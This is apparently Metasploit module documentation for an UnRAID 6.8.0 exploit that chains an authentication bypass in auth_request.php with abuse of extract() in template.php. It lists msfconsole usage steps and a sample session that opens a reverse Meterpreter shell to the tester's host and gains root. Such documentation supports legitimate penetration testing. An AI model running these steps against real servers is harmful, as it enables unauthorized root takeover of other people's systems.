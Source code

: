 ## Vulnerable Application

This module has been tested on UnRAID 6.8.0 without any configuration except setting a root password. Only UnRAID 6.8.0 is affected.

### Description

This module exploits an authentication bypass vulnerability caused by an insecure whitelisting mechanism in `auth_request.php` and then
performs remote code execution as root by abusing the *extract* function used in the `template.php` file.

### Testing Environment

Setup [Unraid 6.8.0](https://s3.amazonaws.com/dnld.lime-technology.com/stable/unRAIDServer-6.8.0-x86_64.zip)
according to the [UnRAID Getting Started](https://wiki.unraid.net/UnRAID_6/Getting_Started) guide.

## Verification Steps

  1. Setup UnRAID 6.8.0
  2. Start `msfconsole`
  3. `use exploit/linux/http/unraid_auth_bypass_exec`
  4. `set RHOST [UNRAID]`
  5. `check`
  6. `run`
  7. You should get a new *root* session

## Options

  **TARGETURI** : The URI of the Unraid application

## Scenarios

```
msf5 > use exploit/linux/http/unraid_auth_bypass_exec.rb
msf5 exploit(linux/http/unraid_auth_bypass_exec) > set RHOSTS 10.10.0.173
RHOSTS => 10.10.0.173
msf5 exploit(linux/http/unraid_auth_bypass_exec) > check
[*] 10.10.0.173:80 - The target appears to be vulnerable.
msf5 exploit(linux/http/unraid_auth_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.0.161:4444 
[*] Sending stage (38288 bytes) to 10.10.0.173
[*] Meterpreter session 1 opened (10.10.0.161:4444 -> 10.10.0.173:46894) at 2020-03-20 15:26:40 +0100
[+] Request timed out, OK if running a non-forking/blocking payload...

meterpreter > getuid
Server username: root (0)
```
